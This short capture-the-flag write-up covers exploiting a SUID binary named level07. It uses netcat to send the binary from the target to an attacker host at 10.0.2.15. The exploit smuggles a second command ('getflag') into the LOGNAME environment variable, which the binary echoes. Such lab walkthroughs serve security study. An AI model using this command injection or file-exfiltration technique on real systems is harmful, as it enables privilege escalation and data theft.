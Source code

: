 *SUID* binary
`-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07`

kali 
`nc -lvnp 9090 > level07`

target
`cat level07 | nc 10.0.2.15 9090`

Binary 

![alt text](image.png)

Get **LOGNAME** environment variable and echo it.

Exploit:
```bash
export LOGNAME='dsa;getflag'
./level07
```


